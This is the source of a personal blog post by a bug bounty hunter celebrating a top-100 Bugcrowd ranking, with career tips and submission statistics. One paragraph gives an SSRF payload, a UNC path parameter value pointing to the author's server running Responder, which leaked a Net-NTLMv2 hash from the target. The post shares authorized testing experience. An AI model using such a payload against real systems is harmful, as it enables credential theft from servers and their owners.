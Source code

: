 ```yaml
---
layout: single
title: Ramblings of a Bug Hunter
date: 2021-02-15
classes: wide
header:
  teaser: /assets/images/BB.png
tags:
  - Bug Bounty
  - Penetration Testing
--- 
```


Today marks a huge personal milestone in my bug bounty hunting career. I have achieved an all-time ranking of top 100 on Bugcrowd. This accomplishment comes just 11 months after first creating an account on the Bugcrowd platform. In this blog post I will endeavor to highlight a few things I have learned along the way. This blog post will contain some insights into the types and number of bugs I have submitted as well as any miscellaneous tips I think of while writing this.  

## Hack for Fun
The first point I would like to emphasize is the fun and learning involved in hacking. In my opinion, going into bug hunting with the sole desire to make money is unadvisable. I first started bug hunting after finishing eLearn Security’s web application pentester certification and decided I wanted to try hacking on real websites. I’ve learned so much more doing bug hunting than I have in any certification (and as an added bonus I get paid to learn this way rather than paying to learn)!  

## Be Creative
The next point I want to touch on is creativity. As I have delved deeper into the bug bounty community, I see an evident issue with creativity. What I mean by this is that so many aspiring hunters are focused on finding their first bug that they constantly flock to the newest tool or run the newest “one-liner” they see on Twitter. This is the wrong approach, instead try thinking outside of the box, fuzz parameters differently, try to break things! Once you make the website act funny you can dig deeper and try to invoke a security issue.   

An example of this I’ve encountered is SMB SSRF. Everyone knows the basic premise of SMB is to induce the web server to make an outbound HTTP request. I was looking at a program with a very tempting `uriPath=` parameter but was unable to achieve an HTTP request despite trying numerous bypasses. Out of curiosity I tried `uriPath=\\c2.mk\share` and immediate received the Net-NTLMv2 hash from the ASPX server on my VPS running Responder. This is not something I have commonly read about, but I proceeded to find it in six other parameters on this program. They were very clearly blocking outbound HTTP traffic but allowed outbound SMB traffic.  


## Dedication
Bug bounty is no different than anything else in life. You have to work hard if you want to see progress and achieve positive results. There is no such thing as a free lunch, you will have to learn and understand web application attacks and exploits, then you will have to fight and compete with thousands of other bug hunters just get your first accepted bug. There is no substitute for hard work and hours spent practicing. Sit down and start today if you want to progress tomorrow.  


<br>
I may add future ramblings here in the future ¯\_(ツ)_/¯ 


## Statistic
Alright now for the fun data and statistics. The data and screenshots below are what is required to reach Top 100 on Bugcrowd (at the time of writing this article):
-	Bugs Submitted: 313
-	Bugs Accepted: 131
-	Duplicate Bugs: 89
-	Rejected Bugs: 86 (this is largely due to how Bugcrowd handles NGPT/ CPT engagements)
-	Pending Bugs: 7


![](/assets/images/bugbounty/1.png)

Figure 1: Volume of Submitted Bugs Over Time  

![](/assets/images/bugbounty/2.png)

Figure 2: Severity of Submitted Bugs Over Time  

![](/assets/images/bugbounty/3.png)

Figure 3: Technical Severity Breakdown  

![](/assets/images/bugbounty/4.png)

Figure 4: Number of Submitted Bugs per Category  

![](/assets/images/bugbounty/5.png)

Figure 5: Points, Rank, Accuracy  



![Hits](https://hitcounter.pythonanywhere.com/count/tag.svg?url=https%3A%2F%2Fcinzinga.com%2FBug-Bounty-top-100%2F)